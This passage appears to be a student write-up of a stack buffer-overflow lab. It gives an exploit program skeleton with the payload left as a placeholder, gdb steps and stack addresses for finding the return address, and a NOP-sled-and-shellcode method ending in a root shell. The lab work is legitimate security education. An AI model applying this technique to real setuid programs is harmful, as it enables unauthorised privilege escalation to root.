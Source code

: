 ```

	/* You need to fill the buffer with appropriate contents here */
	/* ... */

	/* Save the contents to the file "badfile" */
	badfile = fopen("./badfile", "w");
	fwrite(buffer, 517, 1, badfile);
	fclose(badfile);
}
```
## Target result
```
$ gcc -o exploit exploit.c
$ ./exploit 			// create the badfile
$ ./stack badfile		// launch the attack by running the vulnerable program
# <---- Bingo! You’ve got a root shell!
```

## Task 1: Exploiting the Vulnerability

The vulnerable function strcpy will copy the contents into the buffer without checking for the size of the buffer. Thus, an attacker can overwrite the buffer, base pointer, return address and higher memory addresses. The attacker should craft the exploit program is such a way to overwrite the return address, place a no-op sled above it and the shellcode above the no-op sled. The return address must be overwritten to point to the shellcode or any no-op instruction.


### Finding the correct addresses
To successfully mount the buffer overflow attack, we need to find:

* Starting address of the buffer:
  - `gdb ./stack` to start the debugger
  -	`break 16` to set a breakpoint at line 16 (just before returning from `bof()`)
  - The buffer address should be printed (line 15 in exploit.c helps achieve that) – `0xbffffbb4`
  - `info registers` to find the memory address of esp and examining the top of the stack to verify the memory address of the no-op sled.


* Address of the saved return address
  - Using `info registers`, we find that the $ebp is at `0xbffffbc8`. Thus, the return address will at `0xbffffbcc` ($esp + 4 bytes).
  - Using `disassemble 0xbffffbcc`, we get a dump that confirms that we return to the main function.
  - Thus, the location of the return address is 24 bytes after the address of the buffer.


* Target address
  - The target address can be anywhere after the return address. This will make the target address point to a no-op sled that will eventually lead the execution to the shellcode.


### Getting the shell

```
$ gcc -o exploit exploit.c
$ ./exploit
$ ./stack
#
# whoami
# root
```
